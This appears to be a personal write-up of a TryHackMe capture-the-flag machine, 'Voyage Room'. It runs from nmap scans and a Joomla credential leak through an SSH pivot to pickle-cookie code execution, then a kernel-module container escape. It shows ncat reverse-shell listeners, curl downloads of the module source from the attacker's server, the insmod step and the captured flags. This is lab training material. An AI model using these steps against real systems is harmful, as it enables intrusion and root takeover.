

# Voyage Room

## User Flag

1.  nmap

```
19:27:11 ~/bin/ffuf [master]
➤ nmap -A 10.67.161.162
Starting Nmap 7.95 ( https://nmap.org ) at 2026-01-14 20:19 -05
Nmap scan report for 10.67.161.162 (10.67.161.162)
Host is up (0.073s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 7c:b2:b4:08:fa:e0:8a:04:19:2c:63:39:6a:b4:7b:ee (ECDSA)
|_  256 f1:83:8f:8b:53:e7:4f:6d:77:dc:a8:ca:40:3f:49:18 (ED25519)
80/tcp   open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-title: Home
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-generator: Joomla! - Open Source Content Management
|_http-server-header: Apache/2.4.58 (Ubuntu)
2222/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 ad:4a:7e:34:01:09:f8:68:d8:f7:dd:b8:57:d4:17:cf (RSA)
|   256 8d:cd:5e:60:35:c8:65:66:3a:c5:5c:2f:ac:62:93:80 (ECDSA)
|_  256 a9:d5:16:b1:5d:4a:4c:94:3f:fd:a9:68:5f:24:ee:79 (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

2.  Found vuln on [exploit db](https://www.exploit-db.com/exploits/51334) and added script to repo <https://github.com/sebastianrodriguez1115/thm_studies/blob/a01b9dee165e99df7062814a2e0de426f0ae0c21/voyage_room/joomla_vuln.rb#L1>, the result was:

```
Users
[377] root (root) - mail@tourism.thm - Super Users

Site info
Site name: Tourism
Editor: tinymce
Captcha: 0
Access: 1
Debug status: false

Database info
DB type: mysqli
DB host: localhost
DB user: root
DB password: RootPassword@1234
DB name: joomla_db
DB prefix: ecsjh_
DB encryption 0
```

This user is for port 2222, if we enter we see the top is really small, so it might be a container:

```
root@f5eb774507f2:/dev/shm# top

top - 02:02:15 up  1:31,  1 user,  load average: 0.09, 0.04, 0.01
Tasks:   4 total,   1 running,   3 sleeping,   0 stopped,   0 zombie
%Cpu(s):  0.0 us,  0.0 sy,  0.0 ni, 97.9 id,  0.0 wa,  0.0 hi,  0.0 si,  2.1 st
MiB Mem :   3912.2 total,   2438.2 free,    730.6 used,    743.3 buff/cache
MiB Swap:      0.0 total,      0.0 free,      0.0 used.   2917.6 avail Mem 

    PID USER      PR  NI    VIRT    RES    SHR S  %CPU  %MEM     TIME+ COMMAND                                                
      1 root      20   0   12196   6912   6144 S   0.0   0.2   0:00.04 sshd                                                   
     22 root      20   0   14840  10260   7552 S   0.0   0.3   0:00.28 sshd                                                   
     33 root      20   0    6000   3712   3200 S   0.0   0.1   0:00.02 bash                                                   
     50 root      20   0    7868   3584   3072 R   0.0   0.1   0:00.00 top   
```

Doing an nmap of the network:

```
root@f5eb774507f2:/dev/shm# nmap -A 192.168.100.0/24
Starting Nmap 7.80 ( https://nmap.org ) at 2026-01-15 02:03 UTC
Nmap scan report for ip-192-168-100-1.ec2.internal (192.168.100.1)
Host is up (0.000059s latency).
Not shown: 996 closed ports
PORT     STATE SERVICE    VERSION
22/tcp   open  ssh        OpenSSH 9.6p1 Ubuntu 3ubuntu13.11 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http       Apache httpd 2.4.58 ((Ubuntu))
|_http-generator: Joomla! - Open Source Content Management
| http-robots.txt: 16 disallowed entries (15 shown)
| /joomla/administrator/ /administrator/ /api/ /bin/ 
| /cache/ /cli/ /components/ /includes/ /installation/ 
|_/language/ /layouts/ /libraries/ /logs/ /modules/ /plugins/
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Home
2222/tcp open  ssh        OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
5000/tcp open  tcpwrapped
MAC Address: 02:42:7A:B2:B0:F2 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=1/15%OT=22%CT=1%CU=41515%PV=Y%DS=1%DC=D%G=Y%M=02427A%T
OS:M=69684B4F%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10E%TI=Z%CI=Z%TS=A
OS:)SEQ(SP=107%GCD=1%ISR=10E%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O2=M5B4
OS:ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(W1
OS:=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0%O
OS:=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R=N
OS:)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%DF
OS:=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=
OS:G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE
HOP RTT     ADDRESS
1   0.06 ms ip-192-168-100-1.ec2.internal (192.168.100.1)

Nmap scan report for voyage_priv2.joomla-net (192.168.100.12)
Host is up (0.000011s latency).
Not shown: 999 closed ports
PORT     STATE SERVICE VERSION
5000/tcp open  upnp?
| fingerprint-strings: 
|   GetRequest: 
|     HTTP/1.1 200 OK
|     Server: Werkzeug/3.1.3 Python/3.10.12
|     Date: Thu, 15 Jan 2026 02:03:20 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 1942
|     Connection: close
|     <!DOCTYPE html>
|     <html lang="en">
|     <head>
|     <meta charset="UTF-8">
|     <title>Tourism Secret Finance Panel</title>
|     <link rel="stylesheet" href="/static/css/bootstrap.min.css">
|     </head>
|     <body style="background: linear-gradient(135deg, #e0f7fa, #80deea); min-height: 100vh;">
|     <!-- Navbar -->
|     <nav class="navbar navbar-expand-lg navbar-dark bg-dark">
|     |     class="navbar-brand" href="#">
|     Secret Panel</a>
|     |     class="navbar-nav ms-auto">
|     class="nav-item">
|     class="nav-link active" href="#">Login (Under Dev)</a>
|     </li>
|   RTSPRequest: 
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port5000-TCP:V=7.80%I=7%D=1/15%Time=69684AE8%P=x86_64-pc-linux-gnu%r(Ge
SF:tRequest,846,"HTTP/1\.1\x20200\x20OK\r\nServer:\x20Werkzeug/3\.1\.3\x20
SF:Python/3\.10\.12\r\nDate:\x20Thu,\x2015\x20Jan\x202026\x2002:03:20\x20G
SF:MT\r\nContent-Type:\x20text/html;\x20charset=utf-8\r\nContent-Length:\x
SF:201942\r\nConnection:\x20close\r\n\r\n<!DOCTYPE\x20html>\n<html\x20lang
SF:=\"en\">\n<head>\n\x20\x20\x20\x20<meta\x20charset=\"UTF-8\">\n\x20\x20
SF:\x20\x20<title>Tourism\x20Secret\x20Finance\x20Panel</title>\n\x20\x20\
SF:x20\x20<link\x20rel=\"stylesheet\"\x20href=\"/static/css/bootstrap\.min
SF:\.css\">\n</head>\n<body\x20style=\"background:\x20linear-gradient\(135
SF:deg,\x20#e0f7fa,\x20#80deea\);\x20min-height:\x20100vh;\">\n\x20\x20\x2
SF:0\x20<!--\x20Navbar\x20-->\n\x20\x20\x20\x20<nav\x20class=\"navbar\x20n
SF:avbar-expand-lg\x20navbar-dark\x20bg-dark\">\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20\n\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20<a\x20class=\"navbar-brand\"\x20href=\"#\">\xf0\x9f
SF:\x94\x90\x20Secret\x20Panel</a>\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20<ul\x20class=\"navba
SF:r-nav\x20ms-auto\">\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20<li\x20class=\"nav-item\">\n\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20<a\x20class=\"nav-link\x20active\"\x20href=\"#\">Login\x20\
SF:(Under\x20Dev\)</a>\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20\x20\x20\x20\x20\x20</li>\n\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20")%r(RTSPRequest,1F4,"<!DOCTYPE\x20HTML\x20PUBLIC\x20\"-//W3C
SF://DTD\x20HTML\x204\.01//EN\"\n\x20\x20\x20\x20\x20\x20\x20\x20\"http://
SF:www\.w3\.org/TR/html4/strict\.dtd\">\n<html>\n\x20\x20\x20\x20<head>\n\
SF:x20\x20\x20\x20\x20\x20\x20\x20<meta\x20http-equiv=\"Content-Type\"\x20
SF:content=\"text/html;charset=utf-8\">\n\x20\x20\x20\x20\x20\x20\x20\x20<
SF:title>Error\x20response</title>\n\x20\x20\x20\x20</head>\n\x20\x20\x20\
SF:x20<body>\n\x20\x20\x20\x20\x20\x20\x20\x20<h1>Error\x20response</h1>\n
SF:\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code:\x20400</p>\n\x20\x20\
SF:x20\x20\x20\x20\x20\x20<p>Message:\x20Bad\x20request\x20version\x20\('R
SF:TSP/1\.0'\)\.</p>\n\x20\x20\x20\x20\x20\x20\x20\x20<p>Error\x20code\x20
SF:explanation:\x20HTTPStatus\.BAD_REQUEST\x20-\x20Bad\x20request\x20synta
SF:x\x20or\x20unsupported\x20method\.</p>\n\x20\x20\x20\x20</body>\n</html
SF:>\n");
MAC Address: 02:42:C0:A8:64:0C (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=1/15%OT=5000%CT=1%CU=30082%PV=Y%DS=1%DC=D%G=Y%M=0242C0
OS:%TM=69684B4F%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=Z%II
OS:=I%TS=A)SEQ(SP=107%GCD=1%ISR=10B%TI=Z%CI=Z%TS=A)OPS(O1=M5B4ST11NW7%O2=M5
OS:B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)WIN(
OS:W1=FE88%W2=FE88%W3=FE88%W4=FE88%W5=FE88%W6=FE88)ECN(R=Y%DF=Y%T=40%W=FAF0
OS:%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)T3(R
OS:=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%S=Z%
OS:A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(R=Y%
OS:DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIP
OS:L=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.01 ms voyage_priv2.joomla-net (192.168.100.12)

Nmap scan report for f5eb774507f2 (192.168.100.10)
Host is up (0.000039s latency).
Not shown: 999 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.13 (Ubuntu Linux; protocol 2.0)
Device type: general purpose
Running: Linux 2.6.X
OS CPE: cpe:/o:linux:linux_kernel:2.6.32
OS details: Linux 2.6.32
Network Distance: 0 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 256 IP addresses (3 hosts up) scanned in 116.42 seconds
```

We see a host up, if we create a proxy with the ssh connection:

```
ssh -L 5000:192.168.100.12:5000 -N root@10.67.161.162 -p 2222
```

We can see a site up:



The above was after login with the credentials previously found.

I got a hint about the cookie, I got from the banner that this was running a python server, but I didn’t know what to do with it, the hint was to use ”pickles” the cookie session_data has a value that seemed to be one.

So a couple of python scripts later:

- <https://github.com/sebastianrodriguez1115/thm_studies/blob/1af99813d23e2179d105769c98750d7c7b1895f5/voyage_room/pickle_test.py#L14>

<!-- -->

- <https://github.com/sebastianrodriguez1115/thm_studies/blob/1af99813d23e2179d105769c98750d7c7b1895f5/voyage_room/rce.py#L12>  
  for this one I need to run a ncat in a local terminal:

```
21:50:16 ~/bin/ffuf [master]
➤ ncat -lvnp 4444
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.67.161.162:42092.
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@d221f7bc7bf8:/finance-app# 
```

From the script we start a reverse shell from the vulnerable pickle deserializing.

Flag was then at:

```
root@d221f7bc7bf8:/# cat /root/user.txt
cat /root/user.txt
THM{ee346612fb944085af0dd2cd677b1902}
```

## Root flag

OK now I need to break out from docker, using linpeas I see a vuln <https://book.hacktricks.wiki/en/linux-hardening/privilege-escalation/linux-capabilities.html#cap_sys_module>, using the steps mentioned in the page <https://github.com/sebastianrodriguez1115/thm_studies/blob/main/voyage_room>

Steps:

Start the http server on the folder:

```
(venv) 21:25:36 ~/Code/tryhackme [main]
➤ cd voyage_room/
(venv) 21:35:12 ~/Code/tryhackme/voyage_room [main]
➤ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Download the files on the container:

```
root@d221f7bc7bf8:/home# curl 192.168.135.251:8000/rs.c > rs.c
root@d221f7bc7bf8:/home# curl 192.168.135.251:8000/rsmakefile > Makefile
root@d221f7bc7bf8:/home# make
make
make -C /lib/modules/6.8.0-1030-aws/build M=/home modules
make[1]: Entering directory '/usr/src/linux-headers-6.8.0-1030-aws'
warning: the compiler differs from the one used to build the kernel
  The kernel was built by: x86_64-linux-gnu-gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0
  You are using:           gcc-12 (Ubuntu 12.3.0-1ubuntu1~22.04) 12.3.0
  CC [M]  /home/rs.o
  MODPOST /home/Module.symvers
  CC [M]  /home/rs.mod.o
  LD [M]  /home/rs.ko
  BTF [M] /home/rs.ko
Skipping BTF generation for /home/rs.ko due to unavailability of vmlinux
make[1]: Leaving directory '/usr/src/linux-headers-6.8.0-1030-aws'
```

Before loading the mod we need to start a reverse shell in our system

```
21:57:25 ~/Descargas 
➤ ncat -lvnp 1234
Ncat: Version 7.95 ( https://nmap.org/ncat )
Ncat: Listening on [::]:1234
Ncat: Listening on 0.0.0.0:1234
```

```
root@d221f7bc7bf8:/home# insmod rs.ko
```

After the mod is loaded:

```
Ncat: Connection from 10.66.165.220:35082.
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
root@tryhackme-2404:/# ls root  
ls root
root.txt
snap
root@tryhackme-2404:/# cat root/root.txt
cat root/root.txt
THM{ace91ec899f84498a74629b078bdceff}
```
